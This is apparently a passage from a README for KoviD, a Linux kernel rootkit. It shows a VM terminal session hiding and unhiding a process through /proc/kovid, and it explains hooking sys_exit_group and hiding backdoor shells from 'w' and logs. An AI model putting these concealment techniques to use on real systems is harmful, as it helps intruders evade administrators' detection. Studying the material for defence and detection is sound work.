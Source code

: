         ---snip---
         $ ./tests/test &
        [1] 14886
        Running 14886 on /tmp/rr.14886
        [ machine<!!! VM !!!> * 10:30:20 (dev) ~/Codes/lkm ]
         $ ps ax |grep 14886
         14886 pts/0    S      0:00 ./tests/test
         14891 pts/0    S+     0:00 grep --color=auto 14886
        [ machine<!!! VM !!!> * 10:30:33 (dev) ~/Codes/lkm ]
         $ echo 14886 >/proc/kovid
        [ machine<!!! VM !!!> * 10:30:39 (dev) ~/Codes/lkm ]
         $ ps ax |grep 14886
         14899 pts/0    S+     0:00 grep --color=auto 14886
        [ machine<!!! VM !!!> * 10:30:41 (dev) ~/Codes/lkm ]
         $ sudo kill -9 14886
        kill: (14886): No such process
        [ machine<!!! VM !!!> * 10:30:48 (dev) ~/Codes/lkm ]
         $ echo 14886 >/proc/kovid
        [ machine<!!! VM !!!> * 10:30:52 (dev) ~/Codes/lkm ]
         $ ps ax |grep 14886
         14886 pts/0    S      0:00 ./tests/test
         14912 pts/0    S+     0:00 grep --color=auto 14886
        [ machine<!!! VM !!!> * 10:30:55 (dev) ~/Codes/lkm ]
         $ fg
        ./tests/test
        ^C
        ---snip---

        This is so because the task is not hidden from
        userland tools, it is removed from /proc interface
        as a whole, exists only in kernelspace.

        But there is a problem with this approach, if a process
        hidden in such fashion, exits by itself (finished execution or
        whatever) and is hidden, the kernel will complain and will
        be unusable or will dump a g00d 0ld1e stack trace, reveiling us.

        No worries, I've got you covered by hijacking sys_exit_group
        and unhiding the process before it exists, so the links
        to the /proc FS are redone and normal exit routine will work
        as expected. See m_clone() and m_exit_group() in sys.c.

        In fact hidden tasks in KoviD would have deserved its
        own README but I will leave this for another time, for now.

    2.6 Logs

        Given that hidden tasks will not give away much
        of our presence, some logs will just disappear for free!

        For example, a hidden backdoor will not give away the
        presence as an allocated shell, "w" will not output
        anything because there will be nonthing to output :)

        In debug mode there will be tons of logs in the ring
        buffer (debug printks's in RK) and none in "release" mode.

